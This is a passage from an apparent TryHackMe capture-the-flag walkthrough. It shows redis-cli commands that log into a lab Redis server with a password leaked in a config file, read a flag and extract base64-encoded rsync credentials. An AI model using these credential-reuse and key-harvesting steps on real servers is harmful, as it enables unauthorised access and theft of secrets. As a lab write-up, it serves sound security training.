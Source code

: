 ~~~
activerehashing yes
client-output-buffer-limit normal 0 0 0
client-output-buffer-limit slave 256mb 64mb 60
client-output-buffer-limit pubsub 32mb 8mb 60
hz 10
aof-rewrite-incremental-fsync yes
~~~

## Redis

Let's connect to the Redis server using the password found just above:

~~~
┌──(kali㉿kali)-[/data/…/files/opt/conf/redis]
└─$ redis-cli -h 10.10.190.83 -a "B65Hx562F@ggAZ@F"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.190.83:6379> ping
PONG
~~~

We can list the `KEYS`. The internal flag is found under the `internal flag` key:

~~~
10.10.190.83:6379> KEYS *
1) "tmp"
2) "marketlist"
3) "authlist"
4) "internal flag"
5) "int"
10.10.190.83:6379> 
10.10.190.83:6379> KEYS "internal flag"
1) "internal flag"
10.10.190.83:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
~~~

Internal flag: `THM{ff8e518addbbddb74531a724236a8221}`


# What is the user flag? (user.txt)

## Redis

Still connected to the Redis server, we find a base64 encoded string under the `authlist` object:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ redis-cli -h 10.10.190.83 -a "B65Hx562F@ggAZ@F"                       
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.190.83:6379> KEYS *
1) "internal flag"
2) "authlist"
3) "marketlist"
4) "int"
5) "tmp"
10.10.190.83:6379> GET authlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.190.83:6379> LRANGE authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
10.10.190.83:6379> 
~~~